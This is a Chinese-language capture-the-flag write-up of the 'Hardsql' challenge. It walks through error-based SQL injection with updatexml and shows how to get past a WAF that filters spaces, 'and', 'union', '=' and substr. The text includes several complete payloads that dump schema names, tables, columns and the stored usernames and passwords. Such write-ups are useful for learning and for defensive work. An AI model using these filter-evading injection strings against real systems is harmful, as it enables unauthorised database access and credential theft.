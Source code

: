 # Hardsql
## 考察知识点：
### 1.报错注入
### 2.bypass能力
### 3.过滤关键字替换

题目提示报错注入，登陆框输入admin'&password'

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/07DFC29872DC41DDA97FBD60C034F91FHardsql1.png)

自己本地sql语句测试：

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/371EC467CF8141B0A91DC61ED9FFC3A2Hardsql2.png)

所以推测后台sql查询语句为：`username='admin' and password='password'`

## 测试过滤那些符号：
### 1.页面三种返回，报错，密码错误，和警告语句（你可别被我逮住了，臭弟弟）
### 2.推测警告语句即被waf检测了


![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/623271FC1D234D09A9E9DCE971E6430BHardsql3.png)

发现过滤了：and及其替换符号，union,但是updatexml没有过滤，and还可以使用^来代替

payload:`?username=admin&password=pass'^updatexml(1,concat(0x7e,(select database()),0x7e),1)`

发现还是被waf拦截：

payload:`?username=admin&password=pass'^updatexml(1,concat(0x7e,(select( database())),0x7e),1)`

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/2DDAA2DEB6AC4F59B5892C7388225C3CHardsql4.png)

爆出数据库，说明空格也被拦截了。此处使用（）来绕过空格限制

#### 爆库：

`?username=admin&password=pass'^updatexml(1,concat(0x7e,(select(SELECT(group_concat(schema_name))from(information_schema.SCHEMATA))),0x7e),1)`

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/692EB09956304BBF8D51D23711F85767Hardsql5.png)

但是updataxml()有长度限制，只显示32位，此时可使用substr()函数来截断显示，但是被过滤了...然后想到还可以使用right()来让返回数据从右边开始显示

paylaod:`?username=admin&password=pass'^updatexml(1,concat(0x7e,right((select(SELECT(group_concat(schema_name))from(information_schema.SCHEMATA))),30),0x7e),1)%23`

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/1791E1E0D39647359B5BEDC0235D163FHardsql6.png)

后面的数据库名也被爆了出来，此时重点关注geek数据库

#### 爆表
payload:
`username=admin&password=pass'^updatexml(1,concat(0x7e,right((select(SELECT(group_concat(table_name))from(information_schema.tables)where(table_schema)like'geek')),30),0x7e),1)%23`

=等号被过滤了，这里可以使用like来绕过

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/D5AB3B6F46164BDEA8BC6402C855E88BHardsql7.png)

#### 爆字段
payload:
`username=admin&password=pass'^updatexml(1,concat(0x7e,right((select(SELECT(group_concat(column_name))from(information_schema.columns)where(table_name)like'H4rDsq1')),30),0x7e),1)%23`

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/13FE09DBFDA84D3F87EA50E830120B01Hardsql8.png)

#### 爆字段数据
payload:
`username=admin&password=pass'^updatexml(1,concat(0x7e,right((select(SELECT(group_concat(username,password))from(H4rDsq1))),30),0x7e),1)%23`

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/6654676ABACC48CC89C8B772F43FE931Hardsql9.png)